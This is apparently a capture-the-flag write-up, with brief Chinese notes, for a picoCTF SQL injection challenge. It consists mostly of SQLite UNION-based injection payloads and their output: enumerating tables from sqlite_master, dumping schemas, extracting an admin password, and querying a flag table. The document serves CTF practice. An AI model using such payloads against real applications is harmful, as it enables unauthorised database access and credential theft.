 https://play.picoctf.org/events/72/challenges/challenge/358?category=1&page=1

看 response 封包可以發現有 500 internal Error 與 200 OK 的差別

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#string-based---extract-database-structure


' UNION SELECT 1 -- abc				200 OK

' UNION SELECT 'cat', 'cat', 'cat' -- abc	200 OK


===============
' UNION SELECT 'cat', 'cat', sqlite_version(); -- abc
version : 3.31.1

===============
' UNION SELECT 'cat', 'cat',  tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'  -- abc

hints
more_table
offices
users

===============
' UNION SELECT 'cat', 'cat',  sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='hints'  -- abc

CREATE TABLE hints (id INTEGER NOT NULL PRIMARY KEY, info TEXT)
==============
' UNION SELECT 'cat', NULL,  info FROM hints  -- abc

Is this the real life?
You are close now?

==============
' UNION SELECT 'cat', 'cat',  sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'  -- abc

CREATE TABLE users (name TEXT NOT NULL PRIMARY KEY, password TEXT, id INTEGER)
==============
' UNION SELECT 'cat', name,  password FROM users  -- abc
admin	moreRandOMN3ss

==============
' UNION SELECT 'cat', 'cat',  sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='offices'  -- abc

CREATE TABLE offices (id INTEGER NOT NULL PRIMARY KEY, city TEXT, address TEXT, phone TEXT)

==============
' UNION SELECT 'cat', 'cat',  sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='more_table'  -- abc

CREATE TABLE more_table (id INTEGER NOT NULL PRIMARY KEY, flag TEXT)
==============
' UNION SELECT 'cat', NULL,  flag FROM more_table  -- abc



